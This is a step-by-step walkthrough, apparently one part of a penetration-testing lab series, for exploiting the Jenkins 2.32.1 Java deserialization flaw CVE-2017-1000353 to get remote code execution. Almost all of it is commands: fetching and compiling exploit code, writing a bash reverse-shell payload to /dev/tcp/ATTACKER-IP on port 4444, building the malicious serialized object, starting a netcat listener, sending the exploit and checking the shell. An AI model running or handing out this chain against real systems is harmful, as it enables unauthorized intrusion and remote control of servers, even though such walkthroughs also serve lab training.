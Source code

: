 
# Attack 4: Exploiting Jenkins 2.32.1 for Remote Code Execution

Jenkins 2.32.1 has a critical Java deserialization vulnerability (CVE-2017-1000353) that allows for remote code execution.

## Step 1: Set Up Exploit Environment

1. Create a directory for the exploit:
   ```bash
   mkdir -p jenkins-exploit && cd jenkins-exploit
   ```

2. Download the exploit code:
   ```bash
   wget https://github.com/vulhub/CVE-2017-1000353/archive/refs/heads/master.zip
   unzip master.zip
   cd CVE-2017-1000353-master
   ```

## Step 2: Prepare the Exploit

1. Install required dependencies:
   ```bash
   # On Debian/Ubuntu
   sudo apt-get install -y openjdk-8-jdk maven
   
   # On RHEL/CentOS/Amazon Linux
   sudo yum install -y java-1.8.0-openjdk-devel maven
   ```

2. Compile the exploit:
   ```bash
   javac -cp "commons-io-2.5.jar:commons-collections-3.2.2.jar:commons-codec-1.9.jar" *.java
   ```

3. Generate a reverse shell payload (replace with your attacker IP and port):
   ```bash
   echo 'bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1' > payload.sh
   ```

4. Create the malicious serialized object:
   ```bash
   java -cp ".:commons-io-2.5.jar:commons-collections-3.2.2.jar:commons-codec-1.9.jar" Payload payload.sh
   ```
   This creates a file named `payload.ser` containing the serialized object with your payload.

## Step 3: Set Up a Listener on Your Attacking Machine

```bash
nc -lvnp 4444
```

## Step 4: Deliver the Exploit

```bash
python2 exploit.py http://$JENKINS_PRIVATE_IP:8080 payload.ser
```

## Step 5: Verify RCE Success

After sending the exploit, you should receive a reverse shell connection on your listener.
Once connected, verify your access:

```bash
whoami
id
pwd
```

